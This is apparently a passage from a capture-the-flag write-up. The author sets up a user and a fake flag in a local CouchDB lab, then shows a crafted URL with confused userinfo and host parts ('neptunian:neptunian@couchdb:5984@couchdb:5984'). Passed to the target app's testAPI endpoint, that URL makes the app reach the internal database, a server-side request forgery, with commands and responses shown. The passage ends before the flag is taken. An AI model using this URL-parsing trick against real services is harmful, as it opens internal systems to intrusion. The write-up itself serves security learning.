 First of all, let's create our user and related database (and also check it in the local couchdb lab instance):

```bash
# Creating user
 curl http://localhost:8080/createUser?username=neptunian\&password=neptunian

success

# Listing "neptunian" database documents, using our credentials (jq formats our JSON output)
$ curl -s http://neptunian:neptunian@couchdb:5984/neptunian/_all_docs | jq
{
  "total_rows": 1,
  "offset": 0,
  "rows": [
    {
      "id": "99ea668366ac9d5d74fd2bc91c00ed5b",
      "key": "99ea668366ac9d5d74fd2bc91c00ed5b",
      "value": {
        "rev": "1-cee1919fc2eda9a6068ed2792608a9dd"
      }
    }
  ]
}

# Check details of document id 99ea668366ac9d5d74fd2bc91c00ed5b
$ curl -s http://neptunian:neptunian@couchdb:5984/neptunian/99ea668366ac9d5d74fd2bc91c00ed5b | jq
{
  "_id": "99ea668366ac9d5d74fd2bc91c00ed5b",
  "_rev": "1-cee1919fc2eda9a6068ed2792608a9dd",
  "flag": "flag{fake}"
}
```

(Fake) flag created as expected inside our database, with our sent credentials... We ONLY need to steal it from the target requester app.

After playing sometime with URL interpretation, look what I found:

```bash
# URL http://neptunian:neptunian@couchdb:5984@couchdb:5984/neptunian
$ curl -vv http://localhost:8080/testAPI?method=GET\&url=http://neptunian:neptunian\@couchdb\:5984\@couchdb\:5984/neptunian
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET /testAPI?method=GET&url=http://neptunian:neptunian@couchdb:5984@couchdb:5984/neptunian HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sun, 25 Jul 2021 13:57:27 GMT
< Server: Javalin
< Content-Type: text/plain
< Content-Length: 7
< 
* Connection #0 to host localhost left intact

success
```
